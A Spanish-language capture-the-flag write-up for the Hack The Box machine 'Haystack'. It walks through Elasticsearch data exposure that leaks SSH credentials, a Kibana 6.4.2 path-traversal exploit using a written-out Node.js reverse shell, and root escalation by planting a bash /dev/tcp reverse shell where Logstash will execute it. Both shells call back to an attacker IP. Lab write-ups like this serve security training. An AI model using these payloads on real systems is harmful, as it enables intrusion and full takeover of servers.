Hack The Box - Haystack

| Nombre | Haystack |
|---|---|
| OS | Windows |
| Puntos | 20 |
| Dificultad | Facil |
| IP | 10.10.10.115 |
| Maker | JoyDragon |
MASSCAN & NMAP
Escaneo de puertos tcp/udp y su servicio.
masscan -p1-65535,U:1-65535 10.10.10.115 --rate=1000 -e tun1
Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-06-30 00:02:40 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.115
Discovered open port 80/tcp on 10.10.10.115
Discovered open port 9200/tcp on 10.10.10.115
# Nmap 7.70 scan initiated Sat Jun 29 21:50:27 2019 as: nmap -sV -sC -p 9200,22,80 -o nmap.scan -e tun1 10.10.10.115
Nmap scan report for 10.10.10.115
Host is up (0.19s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
| 2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
| 256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_ 256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp open http nginx 1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open http nginx 1.12.2
| http-methods:
|_ Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 29 21:51:09 2019 -- 1 IP address (1 host up) scanned in 42.27 seconds
GOBUSTER - Puerto 80
Realizamos una busqueda de directorios y archivos en el puerto 80 http con gobuster.
root@sckull:~/htb/haystack# gobuster -u http://10.10.10.115/ -w /usr/share/wordlists/dirb/common.txt -np -x php,txt,html -t 15 -q
/index.html (Status: 200)
/index.html (Status: 200)
Hint - Imagen
Dentro de la imagen que se encuentra en el index del puerto 80 encontramos una cadena en base64 con lo que parece un hint. Imagen: 
Hint: 
GOBUSTER - Puerto 9200
Realizamos una busqueda de directorios y archivos en el puerto 9200 con gobuster.
root@sckull:~/htb/haystack# gobuster -u http://10.10.10.115:9200/ -w /usr/share/wordlists/dirb/common.txt -np -x txt,html -t 15
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.115:9200/
[+] Threads : 15
[+] Wordlist : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions : txt,html
[+] Timeout : 10s
=====================================================
2019/06/29 19:25:40 Starting gobuster
=====================================================
/_stats (Status: 200)
/_template (Status: 200)
/bank (Status: 200)
/favicon.ico (Status: 200)
/quotes (Status: 200)
=====================================================
2019/06/29 19:27:49 Finished
=====================================================
Encontramos algunos directorios no muy comunes, al visitar este puerto con firefox encontramos que esta corriendo un servidor de Elasticsearch en su version 6.4.2.

Al hacer una pequeña enumeracion encontramos 3 aliases, los cuales podemos utilizar para obtener informacion que esta almacenado en el servidor.

En el alias de .kibana encontramos una vulnerabilidad de LFI pero esta no afecta a este alias del servidor.
Para obtener informacion de uno de los aliases (index) vamos a utilizar el siguiente query:
curl -s -X GET "http://10.10.10.115:9200/bank/_search" -H 'Content-Type: application/json' -d'
{
"size": 5,
"query":
{
"match_all": {}
}
}
'
El resultado del query son 5 valores que se encuentran dentro de ‘bank’, podemos hacer lo mismo para los demas aliases que encontramos.

En este caso vamos a buscar dentro del alias ‘quotes’, como anteriormente obtuvimos un ‘hint’ en la imagen del index vamos a buscar en este caso la palabra “clave” dentro de este alias.
curl -s -X GET http://10.10.10.115:9200/quotes/_search?q=clave | jq .
Screenshot_20190629_175810.png
"hits": {
"total": 2,
"max_score": 5.9335938,
"hits": [
{
"_index": "quotes",
"_type": "quote",
"_id": "45",
"_score": 5.9335938,
"_source": {
"quote": "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
}
},
{
"_index": "quotes",
"_type": "quote",
"_id": "111",
"_score": 5.3459888,
"_source": {
"quote": "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
}
}
]
}
Obtenemos dos resultados, los cuales nso muestran dos mensajes con una cadena en base64, al decodificarlos obtenemos credenciales.

user: security
pass: spanish.is.key
SSH - User flag
Ya que obtuvimos nuestras credenciales nos logeamos atravez del servicio ssh, obtenemos una shell y nuestra flag user.txt.

Kibana 6.4.2
Como vimos anteriormente encontramos un alias .kibana el cual no era afectado en el puerto 9200, al obtener una shell pudimos hacer una enumeracion y encontrar el archivo de configuracion en este caso kibana.yml el cual se encuentra en la carpeta /etc/kibana/.
Vemos que la configuracion de este archivo tiene otro puerto en el cual esta corriendo el ‘backend’ de la aplicacion, pero este solo esta disponible en la maquina de manera local.

Para poder ver lo que hay en el puerto 5601 vamos a hacer port forwarding, para traerlo localmente a nuestra maquina. Para ello utilizamos el siguiente comando:
ssh -L 5601:localhost:5601 security@10.10.10.115
Verificamos con netstat que el puerto este activo en nuestra maquina:

Visitamos el puerto de manera local y nos muestra una plataforma, en este caso la de Kibana.

LFI - Kibana 6.4.2
Como lo dije anteriormente la version de Kibana 6.4.2 tiene una vulnerabilidad la cual permite ejecutar codigo mediante archivo javascript u obtener archivos mediante LFI, al explotar esta vulnerabilidad de LFI esta solo se ve reflejada dentro del archivo ‘log’ de Kibana.
Una cosa importante que debemos saber es de que, los archivos que se reflejan dentro del log son archivos a los que Kibana tiene acceso. Para obtener una shell tenemos que escribir un archivo javascript dentro de la maquina en un lugar donde el usuario Kibana tenga acceso, el codigo de la Shell Inversa es:
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(1337, "10.10.14.85", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application form crashing
})();
Escribimos nuestra shell en /tmp/ y le dimos permisos para todos los usuarios:

Para poder ejecutar nuestra shell inversa podemos hacer una solicitud con curl o hacerlo con firefox:
curl "http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/shell.js" -vv
Por otro lado obtuvimos nuestra shell inversa como usuario Kibana:

PRIVILEGE ESCALATION
Para obtener una shell como usuario root primero enumeramos los crons que se ejecutan con el usuario root esto lo hacemos con pspy. Al realizar esto encontramos un proceso que se ejecuta cada minuto aproximadamente. Este proceso esta relacionado con logstash la cual es una herramienta que administra los logs.

Al realizar una enumearcion de esta herramienta encontramos dentro de /etc/logstash los archivos de configuracion de esta herramienta. Dentro de la carpeta /etc/logstash/conf.d encontramos 3 archivos los cuales se utilizan para administrar logs.
El primer archivo (filter.conf) contiene una expresion regular la cual es utlizada para organizar los archivos log. En el segundo archivo (input.conf) encontramos que apunta a un archivo path => /opt/kibana/logstash_* el cual va ser ejecutado por el programa con cierto intervalo de tiempo. En el tercer archivo (output.conf) este ultimo ejecuta el archivo o el codigo que se encuentra en el archivo (path) input.conf.
filter.conf:
filter {
if [type] == "execute" {
grok {
match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
}
}
}
input.conf:
input {
file {
path => "/opt/kibana/logstash_*"
start_position => "beginning"
sincedb_path => "/dev/null"
stat_interval => "10 second"
type => "execute"
mode => "read"
}
}
output.conf:
output {
if [type] == "execute" {
stdout { codec => json }
exec {
command => "%{comando} &"
}
}
}
Ya que este programa es ejecutado por el usuario root cada cierto tiempo, podemos escribir como usuario Kibana en el directorio /opt/kibana/ un archivo de shell inversa, pero este archivo debe de hacer match con la expresion regular que se encuentra en el archivo filter.conf: ('match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }').
Para poder entender un poco mas las expresiones regulares de esta herramienta podemos verlo aqui:
El codigo que debemos de agregar al archivo es:
Ejecutar comando : /usr/bin/bash -i >& /dev/tcp/10.10.14.85/1598 0>&1
Para agregar el codigo a nuestro archivo utilizamos el siguiente comando:
echo "Ejecutar comando : /usr/bin/bash -i >& /dev/tcp/10.10.14.85/1598 0>&1" > /opt/kibana/logstash_bash
El nombre de nuestro archivo debe de llevar en su nombre logstash_ (input.conf) para que pueda ser ejecutado en nuestro caso /opt/kibana/logstash_bash. Un problema que tiene esta herramienta es la ejecucion, especificamente por el nombre ya que por alguna razon utilizar el mismo nombre de archivo genera algun problema y no se ejecuta, por lo que al agregar o cambiar el comando que se desea ejecutar se debe de crear un nuevo archivo con diferente nombre.

Por otro lado ponemos a la escucha netcat con el puerto que le pasamos a nuestra shell inversa, esperamos un poco a que se ejecute el cron de nuevo y obtenemos una shell como usuario root y nuestra flag root.txt.
Codigo de nuestra shelll inversa se ejecuta:

Shell, usuario root:
